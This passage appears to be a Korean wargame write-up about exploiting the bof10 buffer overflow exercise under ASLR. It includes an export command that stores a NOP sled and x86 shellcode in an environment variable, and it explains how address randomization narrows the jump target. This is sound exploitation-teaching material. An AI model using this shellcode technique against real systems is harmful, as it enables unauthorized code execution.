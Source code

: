     ```console
    $ ./a.out
    stack value address : 0x7ffc61e8da54
    $ ./a.out
    stack value address : 0x7ffc61e8da54
    $ ./a.out
    stack value address : 0x7ffc61e8da54
    ```
    
# ASLR 우회 

지금까지 `bof1` 부터 `bof9` 까지 풀어봤는데 모두 다 ASLR 이 비활성화된 환경이었다. 이제부터는 ASLR 이 활성화된 시스템에서 `BOF` 취약점으로 익스플로잇을 시도해보자. 

## bof10 bof11 풀어보기 

- `bof10` 는 `ASLR` 이 걸린 상황에서의 `bof8` 과 같은 문제고 `bof11` 은 `ASLR` 이 걸린 상황에서늬 `bof9` 문제와 같다.

- `bof10` 는 `bof8` 처럼 스택에 실행권한이 있어서(NX 비트가 걸려있지 않음) 환경변수에 쉘코드를 삽입하여 익스플로잇을 시도할 수 있다. 하지만 `bof11` 는 `bof9` 처럼 스택에 실행권한이 제거되서 `RTL` 기법을 시도해야 한다. 

# bof10 설명

1. `bof10` 을 실행시키는 환경은 NX 비트가 스택에 활성화 되어있지 않은 대신 **ASLR** 이 활성화 되어있다. 그리고 `32` 비트 용 프로그램(`x86`) 으로 컴파일 되어 있어서 주소값으로 `4` 바이트를 사용한다. 

2. `buf` 의 사이즈가 `8` 밖에 되지 않기 때문에 일단 쉘코드를 환경변수에 삽입해야 한다.

    ```console
    export SHELLCODE=`python -c "print '\x90'*10 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
    ```
    
3. 그런데 ASLR 이 활성화되어 있기 때문에 `SHELLCODE` 환경변수의 주소값이 계속 변한다. 

    ```console
    $ ./bof10 chansol
    Hello chansol[0xffa8b5e8]!
    (env:SHELLCODE -> 0xffa8c834)
    $ ./bof10 chansol
    Hello chansol[0xff7fc9c8]!
    (env:SHELLCODE -> 0xff7fe834)
    $ ./bof10 chansol
    Hello chansol[0xffa28a98]!
    (env:SHELLCODE -> 0xffa29834)
    ```

4. 그래서 쉘 코드를 `SHELLCODE` 환경변수에 저장해놓더라도 쉘 코드로 점프하기가 쉽지 않다. 지금 이 시점에서 `NOP` 코드를 `10` 바이트밖에 넣지 않았기 때문에 점프되면 쉘 코드를 실행시킬 수 있는 주소의 범위가 `NOP` 코드 `10` 바이트와 쉘 코드가 정확하게 시작되는 주소값을 합해서 `11` 바이트이다. 

5. 예를 들어서 `SHELLCODE` 환경변수가 `0xff89d834` (`32` 비트용 프로그램이라 `4` 바이트 주소 사용) 라는 주소값에 저장되었다고 하면 `0xff89d834` 부터 `0xff89d83e` 까지 `NOP` 코드가 저장되어 있고 `0xff89d83f` 부터 쉘코드가 시작된다. 
